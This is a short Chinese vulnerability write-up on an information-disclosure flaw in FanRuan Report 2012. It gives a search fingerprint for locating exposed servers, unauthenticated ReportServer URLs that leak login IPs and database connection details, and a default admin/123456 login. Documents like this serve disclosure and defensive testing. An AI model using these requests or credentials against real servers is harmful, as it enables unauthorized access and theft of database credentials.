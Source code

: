 # 帆软报表 2012 信息泄露漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取部分敏感信息

## 漏洞影响

```
帆软报表 2012
```

## 网络测绘

```
body="down.download?FM_SYS_ID"
```

## 漏洞复现

获取登录报表系统的IP

```plain
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_visitstatehtml&showtoolbar=false
```

![image-20220209113026424](images/202202091130468.png)

数据库信息泄露

```plain
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_getconnectioninfo
```

![image-20220209113041021](images/202202091130098.png)

后台默认口令 admin/123456

```plain
/ReportServer?op=fr_auth&cmd=ah_login&_=new%20Date().getTime()
```
